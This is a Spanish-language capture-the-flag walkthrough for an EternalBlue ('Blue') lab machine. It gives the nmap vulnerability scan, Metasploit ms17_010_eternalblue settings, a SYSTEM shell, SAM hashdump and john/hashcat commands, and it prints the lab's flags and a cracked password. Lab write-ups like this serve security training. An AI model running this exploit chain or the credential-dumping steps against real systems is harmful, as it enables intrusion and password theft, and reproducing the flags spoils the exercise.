



# Blue

EternalBlue es MS17, hay un script en nmap que nos sirve para comprobar si es vulnerable:
`nmap -T5 -p445 --script vuln 10.10.209.7`

Explotamos con metasploit:
`windows/smb/ms17_010_eternalblue`
`set LHOST 10.8.63.150`
`set RHOSTS 10.10.209.7`
**NT AUTHORITY\SYSTEM**

flags
nos abrimos una `shell`
Con el comando
`dir /s /b *flag* `
Podemos ver el path de las flags:
*C:\flag1.txt
C:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag1.lnk
C:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag2.lnk
C:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag3.lnk
C:\Users\Jon\Documents\flag3.txt
C:\Windows\System32\config\flag2.txt*
En `C:\>type flag1.txt`
`flag{access_the_machine}`
En `C:\Windows\System32\config\`
`flag{sam_database_elevated_access}
Si vamos a `\Users\Jon\Documents>flag3.txt`
`flag{admin_documents_can_be_valuable}`

## Escalada

`hashdump`

`echo ffb43f0de35be4d9917ac0cc8ad57f8d > hash.txt`
Intentamos crackear el hash para sacar la contraseña
`john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
ó
`hashcat -m 1000 -a 0 ffb43f0de35be4d9917ac0cc8ad57f8d /usr/share/wordlists/rockyou.txt`
**alqfna22**
